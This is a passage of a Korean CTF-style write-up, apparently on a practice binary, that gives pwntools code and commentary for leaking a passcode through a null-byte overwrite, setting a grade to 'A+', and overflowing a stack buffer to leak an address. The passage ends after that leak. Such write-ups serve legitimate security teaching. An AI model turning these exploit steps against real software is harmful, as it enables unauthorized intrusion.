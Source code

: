 **passcode 탈취**

```python
#print_info
select_option(2)
r.recvuntil(b'a'*40)
passcode = r.recvuntil(b'\n')[0:4]
r.recvuntil(b'\n')
```

- 2를 입력해 `print_info` 함수를 호출함
- `printf("name : %s\n", student->name);` 로 passcode를 탈취하려고 시도함
    - 이미 input을 통해 name배열을 a로 채워뒀고, printf는 널값을 만날때까지 모든 출력을 진행함(`Null Byte Overwrite`)
    - a*40까지 출력된 부분을 먼저 들고옴
    - `passcode = r.recvuntil(b'\n')[0:4]` 에서 name 배열 이후의 passcode 부분에 해당하는 출력값(출력된 부분의 0~3)을 탈취해 passcode변수에 저장함
- 모든 printf로 출력된 값을 받아줌 `r.recvuntil(b'\n')`

**input함수에서 passcode를 이용해 grade를 A+로 설정함**

```python
# input_operation
select_option(1)
r.recvuntil(b'[student number]\n')
r.sendline(b'2018131321')
r.recvuntil(b'[name]\n')
r.send(b'hyunwoo')
r.recvuntil(b'[grade]\n')
r.send(b'A+')
r.recvuntil(b'passcode:\n')
r.send(passcode)
```

- input함수에서 student_number, name, grade를 입력함
- 이때, 원래 grade값과 canary 첫 번째 바이트까지 `b*5`지만 `A+` 을 입력해서 `A+bbb` 형태로 변경함
- grade값이 A+가 들어갔으므로 if문이 실행되고 `read(0, passcode, 4);` 코드에 탈취한 passcode값을 입력해줌
    - 이때, 입력한 passcode와 stack의 passcode는 같은 값임

**grade가 A+인 상태로 stack buffer overflow 진행, name 주소 탈취**

```python
# graduate_school_application
select_option(3)
r.recvuntil(b'name\n')
temp = b'a'*40 + passcode
temp += b'a'*4
r.send(temp)
r.recvuntil(b'you.\n')
stack = r.recvuntil(b'\n')[:-1]
stack = int(stack, 16)
```

- 3번을 입력해 `graduate_school_application`을 실행함
- grade값이 A+이므로 Congratulation!~ 부분부터 실행됨
- ~name\n 이전의 출려값을 모두 입력받음
- `a*40+passcode+a*4` 크기의 값을 `read(0, student->name, 100);` 에 넣어줌
    - read는 100바이트 크기를 입력받을 수 있으므로 name, passcode, student_number값을 덮을 수 있음
    - 이때 name은 a*40, passcode는 기존의 passcode값, student_number는 a*4가 됨
- student_nuber값은 int형이므로 `input` 함수에서는 무조건 int형태로 입력해야 한다. 또한 sendline을 사용하므로 \n값이 마지막에 무조건 들어간다. 따라서 print_info함수로 값을 탈취하려고 해도 탈취할 수가 없다. 따라서 graduate_school_application함수에서 값을 덮어버리는 과정이 필요하다.
- stack은 `printf("%p\n", &student->name);` 값으로부터 name배열의 주소값을 얻어온다.
